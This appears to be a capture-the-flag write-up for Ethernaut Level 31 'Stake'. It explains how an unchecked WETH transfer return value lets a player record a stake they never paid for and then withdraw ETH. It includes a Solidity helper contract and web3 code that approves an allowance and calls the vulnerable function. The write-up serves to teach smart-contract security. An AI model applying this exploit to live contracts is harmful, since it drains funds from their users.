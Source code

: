 # Level 31 - Stake

- Problem is that WETH (ERC20) transfers return value is not checked and states are updated.
- Vulnerable function is StakeWETH.
- Initially both balance and totalStaked are zero. Due to requirements (balance < total, userstaked = 0), we should first stake some ETH from a different address (it can be both EOA or contract.
    - I have used contract for this purpose. See below:
    
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;
    
    interface Stake {
        function StakeETH() external payable; 
    }
    
    contract Staker {
        address target;
    
        constructor(address addr) payable {
            target = addr;
        }
    
        function stake() public {
            Stake(target).StakeETH{value: address(this).balance}();
        }
    }
    ```
    
- After we stake some ETH, now we need to give allowance to Stake contract to use our WETH tokens. For this purpose, we should call WETH contracts approve function. We can create payload and call with data.
    
    
    ```jsx
    // We set allowance to 0.002 (should be more than 0.001 to call StakeWETH)
    payload = web3.eth.abi.encodeFunctionCall({
        name:'approve',
        type:'function',
        inputs:[{
            type:'address',
            name:'_spender'
        },{type:'uint256',name:'_value'}]}, [instance,"2000000000000000"])
        
    // Call method
    sendTransaction({from:player,to:weth_address,data:payload})
    ```
    
- This will increase totalStaked by 0.002 and userBalance by 0.002. However, since we don’t have any WETH balance, transfer call inside function will return false. **But it will keep executed since returned value is not checked.**
- Now, since userBalance is set to 0.002, we can unstake tokens and receive 0.002 ETH.
- Latest states are → balance = 0.008 , total staked= 0.01, user balance = 0